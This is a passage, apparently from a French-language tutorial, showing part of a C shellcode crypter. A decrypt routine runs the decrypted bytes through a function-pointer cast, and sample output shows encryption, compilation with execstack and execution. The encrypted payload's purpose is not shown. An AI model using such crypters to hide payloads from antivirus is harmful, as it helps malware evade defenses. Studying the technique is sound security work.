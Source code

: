 ```c

    affichage(origin, length, "decrypted");
    printf("\n[+] Shellcode executing ...");
	
    // Execute the decrypted shellcode
    exec(origin);

    return 0;
}

void affichageVar(unsigned char* tab, int length, char* name)
{
	int i;
	printf("\n[+] %s: ", name);
	for (i = 0; i < length; i++)
        	printf("\\x%02x", *(tab+i));
	
}

void affichage(unsigned char* tab, int length, char* name)
{
        int i;
        printf("\n[+] %s Shellcode: ",name);
        for (i = 0; i < length; i++)
                printf("\\x%02x", *(tab+i));

}

void exec(unsigned char* shellcode)
{
	printf("\n[+] Shellcode executing ...");
	  int (*ret)() = (int(*)())shellcode;
	  ret();

}
```



## Resultat ##

```c

./encrypt aaaazzzzeeeerrrr

[+] Key: \x61\x61\x61\x61\x7a\x7a\x7a\x7a\x65\x65\x65\x65\x72\x72\x72\x72
[+] IV: \xde\xad\xbe\xef\xde\xad\xbe\xef
[+] crypted Shellcode:
\x93\x13\xe1\xb2\x5e\x68\xd6\xfa\x71\x8a\x2b\x40\x92\x68\x0b\xf1\x3f\xc7\xba\x74\x4e\xfc\x1f\xcb\xbf\x05\xd8\x92\x3e\x78\x49\x34
+\x89\x0b\x96\x6f\x19\x48\x4a\xda

// we paste the crypted shellcode into decrypt.c
xophidia@xophidia-VirtualBox:~/Téléchargements$ vim decrypt.c
// then we compile
xophidia@xophidia-VirtualBox:~/Téléchargements$ gcc -fno-stack-protector -z execstack decrypt.c -o decrypt -lssl -lcrypto
// and execute

./decrypt aaaazzzzeeeerrrr

[+] Key: \x61\x61\x61\x61\x7a\x7a\x7a\x7a\x65\x65\x65\x65\x72\x72\x72\x72
[+] IV: \xde\xad\xbe\xef\xde\xad\xbe\xef
[+] decrypted Shellcode:
```